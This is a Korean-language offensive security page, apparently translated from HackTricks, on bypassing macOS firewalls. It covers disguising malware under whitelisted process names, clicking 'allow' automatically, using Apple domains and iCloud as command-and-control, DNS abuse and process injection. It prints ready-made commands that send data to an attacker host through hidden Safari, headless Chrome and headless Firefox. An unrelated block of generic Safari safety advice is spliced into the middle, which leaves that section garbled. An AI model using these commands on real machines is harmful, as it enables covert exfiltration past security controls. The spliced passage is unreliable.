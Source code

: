 # macOS 방화벽 우회하기

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 상품**](https://peass.creator-spring.com)을 구매하세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**를** **팔로우**하세요.
* **Hacking 트릭을 공유하려면 PR을** [**HackTricks**](https://github.com/carlospolop/hacktricks) **및** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github 저장소에 제출**하세요.

</details>

## 발견된 기법

다음 기법들은 일부 macOS 방화벽 앱에서 작동하는 것으로 확인되었습니다.

### 화이트리스트 이름 남용

* 예를 들어 악성 코드를 **`launchd`**와 같은 잘 알려진 macOS 프로세스 이름으로 호출합니다.

### 합성 클릭

* 방화벽이 사용자에게 허가를 요청하면 악성 코드가 **허용을 클릭**합니다.

### Apple 서명된 이진 파일 사용

* **`curl`**과 같은 이진 파일을 사용합니다. 그 외에도 **`whois`**와 같은 다른 이진 파일도 사용할 수 있습니다.

### 잘 알려진 Apple 도메인

방화벽은 **`apple.com`** 또는 **`icloud.com`**과 같은 잘 알려진 Apple 도메인으로의 연결을 허용할 수 있습니다. iCloud는 C2로 사용될 수 있습니다.

### 일반적인 우회

방화벽 우회를 시도하기 위한 몇 가지 아이디어

### 허용된 트래픽 확인

허용된 트래픽을 알면 잠재적으로 화이트리스트에 등록된 도메인이나 해당 도메인에 액세스할 수 있는 애플리케이션을 식별하는 데 도움이 됩니다.
```bash
lsof -i TCP -sTCP:ESTABLISHED
```
### DNS 남용

DNS 해석은 **`mdnsreponder`**로 서명된 애플리케이션을 통해 수행되며, DNS 서버에 연락할 수 있도록 허용될 것입니다.

<figure><img src="../../.gitbook/assets/image (1) (1) (6).png" alt="https://www.youtube.com/watch?v=UlT5KFTMn2k"><figcaption></figcaption></figure>

### 브라우저 앱을 통한 접근

* **oascript**
```applescript
tell application "Safari"
run
tell application "Finder" to set visible of process "Safari" to false
make new document
set the URL of document 1 to "https://attacker.com?data=data%20to%20exfil
end tell
```
* 구글 크롬

{% code overflow="wrap" %}
```bash
"Google Chrome" --crash-dumps-dir=/tmp --headless "https://attacker.com?data=data%20to%20exfil"
```
{% endcode %}

* 파이어폭스
```bash
firefox-bin --headless "https://attacker.com?data=data%20to%20exfil"
```
* Safari

# Safari

Safari는 macOS 운영 체제에서 기본적으로 제공되는 웹 브라우저입니다. 이 브라우저는 macOS의 다양한 보안 기능을 활용하여 사용자의 개인 정보와 데이터를 보호합니다. 그러나 Safari를 사용하여 웹을 탐색하는 동안 여전히 보안 위협에 노출될 수 있습니다. 이 섹션에서는 Safari를 사용할 때 고려해야 할 몇 가지 보안 사항과 방어 기술을 살펴보겠습니다.

## 1. 쿠키 관리

쿠키는 웹 사이트가 사용자의 브라우저에 저장하는 작은 데이터 조각입니다. Safari는 기본적으로 쿠키를 허용하도록 설정되어 있습니다. 그러나 사용자는 쿠키를 수동으로 관리하거나 특정 웹 사이트에서 쿠키를 차단할 수 있습니다. Safari의 "개인 정보 보호" 탭에서 쿠키 관리 설정을 찾을 수 있습니다.

## 2. 확장 프로그램 관리

Safari는 확장 프로그램을 통해 브라우저 기능을 확장할 수 있습니다. 그러나 악성 확장 프로그램은 사용자의 개인 정보를 유출하거나 악용할 수 있습니다. 따라서 사용자는 신뢰할 수 있는 출처에서만 확장 프로그램을 설치해야 합니다. Safari의 "확장 프로그램" 탭에서 설치된 확장 프로그램을 관리할 수 있습니다.

## 3. 보안 업데이트

Apple은 Safari를 포함한 macOS 운영 체제의 보안 취약점을 해결하기 위해 정기적으로 보안 업데이트를 제공합니다. 사용자는 시스템 환경 설정에서 자동 업데이트를 활성화하여 최신 보안 패치를 받을 수 있습니다.

## 4. 안전한 연결

Safari는 HTTPS를 통해 웹 사이트와의 통신을 암호화합니다. 사용자는 "개인 정보 보호" 탭에서 "안전한 웹 사이트만 허용" 옵션을 활성화하여 안전한 연결을 강제할 수 있습니다.

## 5. 사이트 권한 관리

Safari는 웹 사이트에 대한 권한을 관리할 수 있는 기능을 제공합니다. 사용자는 "개인 정보 보호" 탭에서 웹 사이트에 대한 권한을 확인하고 수정할 수 있습니다. 이를 통해 사용자는 웹 사이트가 위치 정보, 카메라, 마이크 등에 접근하는 것을 제어할 수 있습니다.

## 6. 인터넷 보안 및 개인 정보 보호 소프트웨어

Safari 외에도 다양한 인터넷 보안 및 개인 정보 보호 소프트웨어를 사용하여 더욱 강력한 보안을 제공할 수 있습니다. 이러한 소프트웨어는 악성 웹 사이트, 스팸 메일, 악성 다운로드 등을 탐지하고 차단하는 기능을 제공합니다.

Safari를 사용하는 동안 이러한 보안 사항을 유지하면 개인 정보와 데이터를 보호할 수 있습니다. 그러나 완벽한 보안은 존재하지 않으므로 항상 주의가 필요합니다.
```bash
open -j -a Safari "https://attacker.com?data=data%20to%20exfil"
```
### 프로세스 인젝션을 통한 우회

만약 **서버에 연결할 수 있는 권한을 가진 프로세스에 코드를 인젝션**할 수 있다면 방화벽 보호를 우회할 수 있습니다:

{% content-ref url="macos-proces-abuse/" %}
[macos-proces-abuse](macos-proces-abuse/)
{% endcontent-ref %}

## 참고 자료

* [https://www.youtube.com/watch?v=UlT5KFTMn2k](https://www.youtube.com/watch?v=UlT5KFTMn2k)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 상품**](https://peass.creator-spring.com)을 구매하세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)을 **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 여러분의 해킹 기법을 공유하세요.

</details>
